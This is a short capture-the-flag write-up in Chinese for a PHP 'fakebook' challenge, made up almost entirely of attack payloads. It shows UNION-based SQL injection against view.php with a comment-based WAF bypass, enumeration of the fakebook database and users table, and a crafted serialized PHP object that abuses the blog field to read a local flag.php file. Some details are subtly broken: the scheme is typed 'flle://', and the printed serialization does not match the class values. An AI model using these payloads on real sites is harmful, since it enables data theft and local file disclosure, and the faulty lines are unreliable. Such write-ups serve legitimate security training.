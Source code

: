 ```php

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
发现view.php?no=1,尝试注入

```
?no =1 order by 5 -- + 
报错，说明存在4列
?no=1 union select 1,2,3,4--+ 
提示 no hack 被waf了
?no=-1%20union/**/select%201,2,3,4%20--+
提示notcie:Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31
?no=-1%20union/**/select%201,database(),3,4%20--+
得到数据库fakebook
?no=-1%20union/**/select%201,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'%20--+
爆出表名users
?no=-1%20union/**/select%201,group_concat(column_name),3,4 from information_schema.columns where table_name='users'--+
```

```php
<?php


class UserInfo
{
    public $name = "admin111";
    public $age = 18;
    public $blog = "flle:///var/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
```

O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:25:"flle:///var/html/flag.php";}

```
?no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:8:"admin111";s:3:"age";i:18;s:4:"blog";s:29:"flle:///var/www/html/flag.php";}'--+
```

